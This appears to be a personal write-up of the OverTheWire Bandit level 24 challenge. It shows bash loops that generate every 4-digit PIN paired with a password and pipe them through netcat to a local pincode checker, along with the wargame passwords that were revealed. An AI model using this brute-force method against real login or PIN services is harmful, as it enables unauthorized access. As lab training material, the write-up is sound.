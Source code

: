 In this challenge, I guess we have to create a wordlist in order to perform the bruteforce attack, so I had to make a temporary directory and use bash scripting to make one
```bash
bandit24@bandit:/tmp/bandd24$ for i in {0000..9999}; do echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 "$i >> delete; done
```
I tried to only use shell expansion and echo 
```bash
bandit24@bandit:/tmp/bandd24$ echo -e -n "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 "{0000..9999}"\n"
```
but strangely enough, It prints all lines witha leading space which changes the password value
Then, we ill open a netcat tcp connection the the specified port and redirect the passwords to it
```bash
bandit24@bandit:/tmp/bandd24$ nc 127.0.0.1 30002 < delete | grep -v rong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```
This command also has a pipe to grep so that it shows only non-Wrong outputs as we will have 9999 lines that say wrong!
